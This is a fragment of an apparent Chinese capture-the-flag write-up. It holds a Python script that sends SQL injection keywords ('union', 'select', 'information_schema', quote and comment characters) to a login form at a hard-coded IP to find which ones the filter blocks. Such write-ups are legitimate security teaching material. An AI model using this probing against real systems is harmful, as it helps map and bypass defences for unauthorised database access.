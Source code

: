 ![1539415423719](writeup.assets/1539415423719.png)



查看哪些关键词被过滤：

```python
import requests

def detect():
    waf_words=['ord', 'or', 'union', 'select', 'and', 'from', 'order by', 'substr', "'", '*', '&&', 'information_schema', ' ', '%', 'group_concat', '(', '"', 'where', 'if', ' ', '||', '#', '--+', '_', '`', '/', '<>', 'in', '=', 'mid', 'like', 'database()', '>', 'user()', 'tables', 'limit']
    burp0_url = "http://114.55.36.69:6661/index.php"
    burp0_cookies = {"PHPSESSID": "jrspq1dsdrt8gn6tqq35mdatn0"}
    burp0_headers = {"Cache-Control": "max-age=0", "Origin": "http://114.55.36.69:6661", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3377.1 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Referer": "http://114.55.36.69:6661/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    for each in waf_words:
        burp0_data={"username": "admin{}".format(each), "passwd": "admin"}
        res=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
```